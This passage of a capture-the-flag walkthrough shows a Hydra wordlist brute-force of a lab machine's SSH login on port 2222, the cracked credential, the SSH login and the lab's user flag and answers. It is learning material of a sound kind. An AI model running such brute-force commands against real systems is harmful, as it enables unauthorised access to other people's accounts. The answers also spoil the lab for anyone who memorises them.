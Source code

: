 Since I do have the username, I used Hydra to crack the SSH password:

**NOTE:** Don't forget that SSH is running on port **2222**, not the usual port **22**.
	
```shell
hydra -l mitch -P rockyou.txt ssh://{MACHINE_IP}:2222
```

Got the password in less than a minute!

```
[2222][ssh] host: {MACHINE_IP}   login: mitch   password: secret
```

So the password is:

```secret
```

### Where can you login with the details obtained?

We used the following protocol to login with the previous credentials:
```
ssh
```

### What's the user flag?
I SSH'd into the machine with the following:

```
ssh -p 2222 mitch@{MACHINE_IP}
```

...and I'm in!

I type in the "ls" command, and I see the "user.txt" file. I then type "cat user.txt", and get the following:

```
G00d j0b, keep up!
```

### Is there any other user in the home directory? What's its name?
I typed in the following:

```
ls ../
```

and recieved the following:

```
mitch  sunbath
```

So the other user is

```
sunbath
```
